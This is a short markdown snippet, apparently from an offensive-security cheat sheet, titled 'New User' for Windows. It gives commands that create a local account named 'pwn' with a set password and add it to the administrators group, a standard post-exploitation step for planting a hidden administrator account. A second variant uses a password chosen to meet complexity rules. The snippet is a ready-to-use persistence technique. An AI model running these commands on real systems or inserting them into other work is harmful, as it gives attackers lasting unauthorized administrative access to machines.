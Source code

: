 # New User

## Windows

```text
net user pwn hacked /ADD
net localgroup administrators pwn /add
```

```bash
# https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/password-must-meet-complexity-requirements
net user pwn ThisIsOneUsersPass01 /add /y 
```



